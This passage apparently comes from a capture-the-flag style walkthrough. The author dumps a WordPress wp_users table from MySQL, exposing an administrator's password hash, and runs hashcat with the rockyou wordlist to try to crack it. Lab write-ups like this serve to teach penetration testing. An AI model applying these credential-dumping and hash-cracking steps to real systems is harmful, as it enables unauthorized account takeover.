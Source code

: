```
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.00 sec)

mysql> select * from wp_users;
+----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
| ID | user_login    | user_pass                          | user_nicename | user_email      | user_url | user_registered     | user_activation_key | user_status | display_name  |
+----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
|  1 | Administrator | $P$B3FUuIdSDW0IaIc4vsjj.NzJDkiscu. | administrator | it@megacorp.com |          | 2017-12-20 23:26:04 |                     |           0 | Administrator |
+----+---------------+------------------------------------+---------------+-----------------+----------+---------------------+---------------------+-------------+---------------+
1 row in set (0.00 sec)

```

Unfortunately, rockyou doesn’t crack the hash:

```

root@kali# hashcat -m400 wp.hash /usr/share/wordlists/rockyou.txt
hashcat (v4.1.0) starting...
* Device #1: Not a native Intel OpenCL runtime. Expect massive speed loss.
             You can use --force to override, but do not report related errors.
No devices found/left.

Started: Fri May 11 08:56:25 2018
Stopped: Fri May 11 08:56:25 2018
root@kali# hashcat -m400 wp.hash /usr/share/wordlists/rockyou.txt --force
hashcat (v4.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-7700 CPU @ 3.60GHz, 1024/2961 MB allocatable, 4MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
...

```
